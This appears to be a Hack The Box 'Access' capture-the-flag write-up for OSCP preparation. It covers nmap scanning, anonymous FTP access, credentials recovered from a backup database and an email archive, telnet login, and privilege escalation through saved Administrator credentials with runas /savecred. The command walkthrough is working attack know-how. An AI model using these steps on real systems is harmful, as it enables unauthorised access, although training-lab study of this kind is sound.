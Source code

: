 ```yaml
---
layout: post
title:  HTB Access Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-18 15:00:00 +0300
image:  '/images/htb_access.png'
tags:   [Write-ups, HTB, OSCP+, Easy, Windows, FTP-Anonymous, .mdb, Telnet, Stored-Credentials, Runas.exe]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
  - [FTP Anonymous access](#ftp-anonymous-access)
  - [Examining backup.mdb and Access Control.zip and getting credentials of the user security](#examining-backupmdb-and-access-controlzip-and-getting-credentials-of-the-user-security)
- [Foothold](#foothold)
  - [Telnet access using the user security credentials](#telnet-access-using-the-user-security-credentials)
- [Privilege Escalation](#privilege-escalation)
  - [Administrator stored credentials and runas.exe](#administrator-stored-credentials-and-runasexe)

# Enumeration
### Nmap
```shell
# Step 1 - Find active ports
nmap -p- -Pn --min-rate 10000 10.129.223.141

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,23,80 10.129.223.141
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 08:19 EST
Nmap scan report for 10.129.223.141
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.40 seconds
```

If we examine the results of nmap, we will see that port 21 is accessible with anonymous and port 23 is also open. There seems to be a website running on port 80 too.

### Web Enumeration
Lets visit the website first:
```shell
http://10.129.223.141/
```

There seems to be a photo of some server racks but nothing else.

### FTP Anonymous access

From our nmap scan, we know that we have FTP anonymous access. Lets access it:

```shell
ftp 10.129.223.141    

Connected to 10.129.223.141.
220 Microsoft FTP Service
Name (10.129.223.141:Vorkharium): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

After getting access, we can go on and enumerate the accessible folders and files:

```shell
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> binary
200 Type set to I.
```

We can get mget * to get any file we find:

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> mget *
mget Access Control.zip [anpqy?]? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |***********************************************************************| 10870       96.11 KiB/s    00:00 ETA
226 Transfer complete.
```

After enumerating both folders, we were able to get the following two files:

```shell
backup.mdb
Access Control.zip
```

### Examining backup.mdb and Access Control.zip and getting credentials of the user security
We can use mdb-sql or Microsoft Access to examine backup.mdb. I used Microsoft Access.

Inside auth_user I found the following credentials:

```shell
admin:admin
engineer:access4u@security
backup_admin:admin
```

We were able to unzip Access Control.zip using the password of the user engineer:

```shell
access4u@security
```

After extracting the .zip file, we got a .pst file. We can examine the .pst file using Microsoft Outlook.

Inside the .pst file Access Control.pst we found the credentials of the user security:

```shell
security:4Cc3ssC0ntr0ller
```

# Foothold
### Telnet access using the user security credentials
Now we can try using telnet to get access using the credentials of the user security:

```shell
telnet -l security 10.129.223.141
```

Wait until we get asked to enter a password and enter the following password:

```shell
4Cc3ssC0ntr0ller
```

It worked! We got in:

```shell
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\security\Desktop\user.txt
```

# Privilege Escalation
### Administrator stored credentials and runas.exe
Lets check if there are any stored credentials:

```shell
C:\Users\security>cmd /;os
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
```

It seems like the credentials of the Administrator are saved.

Knowing this, we can use runas.exe and the saved credentials of the user Administrator to copy the root.txt file to the folder of the user security and be able to read the contents of root.txt after that:

```shell
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\security\root.txt
```